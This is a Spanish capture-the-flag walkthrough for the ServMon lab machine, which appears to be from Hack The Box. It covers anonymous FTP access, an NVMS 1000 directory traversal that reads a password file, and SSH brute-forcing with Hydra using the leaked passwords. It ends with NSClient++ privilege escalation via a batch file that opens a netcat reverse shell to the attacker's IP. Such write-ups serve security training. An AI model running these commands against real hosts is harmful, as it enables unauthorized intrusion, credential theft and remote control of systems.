

# ServMon

**OS**: Windows \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- NVMS 1000 - Directory Traversal
- Port Forwarding
- NSClient++ 0.5.2.35 - Privilege Escalation

## Nmap Scan

`nmap -sS -Pn -T3 -sC -sV -p- 10.10.10.184`

```
Nmap scan report for 10.10.10.184
Host is up (0.079s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
7680/tcp  open  pando-pub?
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|_    Sat:Saturday
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
```

## Enumeración

Revisamos el servicio ftp que corre en el puerto 21 con el usuario **Anonymous** y sin password.
Se puede visualizar unos cuantos directorios que contienen 2 archivos txt llamados **Confidential.txt** y **Notes to do.txt**.

- `ftp 10.10.10.184`
- `get Confidential.txt`
- `get "Notes to do.txt"`


##### Confidential.txt
```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

##### Notes to do.txt
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

## Exploit NVMS 1000

Revisando la página web podemos ver que es un **NVMS 1000**.

`http://10.10.10.184/Pages/login.htm`


Investigando sobre la aplicación nos encontramos con un [exploit](https://www.exploit-db.com/exploits/47774) que permite **Directory Traversal** el cual nos puede ayudar para leer el archivo **Passwords.txt** antes mencionado.

`/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt`


Utilizaremos esa lista de password para hacer fuerza bruta al servicio SSH que corre en el puerto 22.

##### users.txt
```
Nadine
Nathan
```

##### password.txt
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

`hydra -L users.txt -P password.txt 10.10.10.184 ssh`


`ssh Nadine@10.10.10.184`


## Escalada de Privilegios

Revisando los archivos de la aplicación llamada **NSClient++** que corre en el puerto 8443 podemos ver el archivo **nsclient.ini** que contiene un password y el host permitido que es **127.0.0.1**.

`type "C:\Program Files\NSClient++\nsclient.ini"`


Usaremos SSH para hacer un port forwarding del puerto 8443 para acceder de forma local.

`ssh -L 8443:127.0.0.1:8443 -N Nadine@10.10.10.184`


Iniciamos sesión con el password anterior.

`https://127.0.0.1:8443/`


Investigando un poco sobre **NSClient++** podemos encontrar un [exploit](https://www.exploit-db.com/exploits/46802) que permite ejecutar comandos del sistema el cual usaremos para obtener shell con privilegios de Administrador.

Levantamos nuestro servidor web con los archivos necesarios.

- `locate nc.exe`
- `cp /usr/share/windows-resources/binaries/nc.exe .`
- `sudo python3 -m http.server 80`


##### admin.bat
```
@echo off
c:\Temp\nc.exe 10.10.15.86 4444 -e cmd.exe
```

Subimos nc.exe y nuestro archivo .bat al sistema.

- `powershell`
- `iwr http://10.10.15.86/nc.exe -Outfile c:\Temp\nc.exe`
- `iwr http://10.10.15.86/admin.bat -Outfile c:\Temp\admin.bat`



Iremos a la página web y crearemos nuestra tarea para ejecutar el comando.

```
-> Settings -> external scripts -> scripts -> default
-> Basic
-> command = C:\Temp\admin.bat
-> Save
-> Changes -> Save configuration
```


Vemos si se configuró adecuadamente nuestra tarea.

`type "C:\Program Files\NSClient++\nsclient.ini"`


Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 4444`

Detenemos e iniciamos el servicio **nscp** para que cargue la nueva configuración.

- `sc stop nscp`
- `sc start nscp`


Nos dirigimos a la página y ejecutamos nuestra tarea.

`-> Console -> default -> Run`


## Referencias
https://www.exploit-db.com/exploits/47774 \
https://www.rapid7.com/db/modules/auxiliary/scanner/http/tvt_nvms_traversal \
https://www.exploit-db.com/exploits/46802
